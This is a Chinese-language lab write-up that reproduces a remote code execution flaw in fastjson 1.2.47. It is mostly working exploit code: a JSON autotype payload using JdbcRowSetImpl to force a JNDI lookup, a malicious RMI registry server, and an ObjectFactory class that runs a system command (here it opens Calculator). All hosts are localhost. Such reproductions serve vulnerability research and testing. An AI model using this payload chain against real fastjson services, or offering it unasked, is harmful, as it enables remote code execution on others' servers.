

# fastjson-RCE 漏洞复现

## fastjson-1.2.47

### 资源下载:
```
下载 http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.47/
文档 https://github.com/alibaba/fastjson/wiki/%E5%B8%B8%E8%A7%81%E9%97%AE%E9%A2%98
源码 https://github.com/alibaba/fastjson/archive/1.2.47.zip

jar http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.47/fastjson-1.2.47.jar
Java SE Development Kit 8u60
https://download.oracle.com/otn/java/jdk/8u60-b27/jdk-8u60-windows-x64.exe
```



## poc.java
```
import com.alibaba.fastjson.JSON;


public class poc {

    public static void main(String[] argv) {
        String payload = "{\"name\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
                "\"xxxx\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":" +
                "\"rmi://localhost:1099/Exploit\",\"autoCommit\":true}}}";
        JSON.parse(payload);
    }

}
```
## rmiServer.java

`javac rmiServer.java`

`java rmiServer`

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmiServer {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Exloit",
                "Exploit","http://localhost:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit",referenceWrapper);
    }
}
```


## Exploit.java

`javac Exploit.java`

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        exec("xterm");
        return null;
    }

    public static String exec(String cmd) {
        try {
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static void main(String[] args) {
        exec("123");
    }
}
```
## 参考链接

https://www.03sec.com/3240.shtml


